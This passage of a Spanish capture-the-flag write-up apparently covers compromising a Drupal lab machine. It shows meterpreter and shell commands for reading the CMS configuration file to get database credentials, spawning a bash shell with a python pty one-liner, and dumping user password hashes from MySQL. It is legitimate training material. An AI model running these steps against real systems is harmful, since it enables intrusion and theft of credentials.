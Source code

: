 ![imagen 10](https://github.com/user-attachments/assets/6dc1451e-e88e-4f90-a315-524b44a4f4a8)


Lanzamos un `ls` desde meterpreter y encontramos la primera bandera `flag1.txt`.
```
ls
```

![imagen 11](https://github.com/user-attachments/assets/42c53f5e-a405-438e-94ed-c332f341bea1)

![imagen 12](https://github.com/user-attachments/assets/a8a10815-2a2c-4e22-9db7-6b6afef2f1cb)

## Flag 1
**"Todo buen CMS necesita un archivo de configuración, lo mismo que tú."**

Buscamos el archivo de configuración de Drupal:
```
cat /var/www/html/sites/default/settings.php
```
![imagen 13](https://github.com/user-attachments/assets/a2b82429-f3df-4f97-8592-071ab499c959)

![imagen 14](https://github.com/user-attachments/assets/02859513-3847-4f77-9c6f-89e07a81b05b)

Encontramos la segunda bandera `flag2.txt` junto con credenciales de acceso a la base de datos.

## Flag 2
**"Los ataques de fuerza bruta y de diccionario no son las únicas formas de obtener acceso (y lo necesitarás). Qué puedes hacer con estas credenciales?"**


Para obtener un bash del sistema, usamos el comando `shell` de `meterpreter` y, tras abrir un canal, ejecutamos:
```
python -c "import pty; pty.spawn('/bin/bash')"
```
![imagen 15](https://github.com/user-attachments/assets/7b9ae97e-69c2-4401-aa4a-f4b8cc38c29d)


Utilizamos las credenciales de la base de datos para acceder a `mysql`:
```
mysql -u dbuser -p
show databases;
use drupaldb;
show tables;
select name, pass from users;
```
![imagen 16](https://github.com/user-attachments/assets/c8d8e8a6-64e1-4e74-b0bb-b84188d71bce)

![imagen 17](https://github.com/user-attachments/assets/f6b5f408-f74c-472a-89d8-ae73828a361a)

Podemos descifrar el hash con `hashcat` o `John the Ripper`, pero al realizar una búsqueda con `searchsploit`, encontramos un exploit que nos permite crear un usuario administrador. En lugar de recuperar la contraseña del usuario `admin`, utilizaremos este exploit para generar un nuevo usuario con privilegios administrativos y acceder al `CMS`.
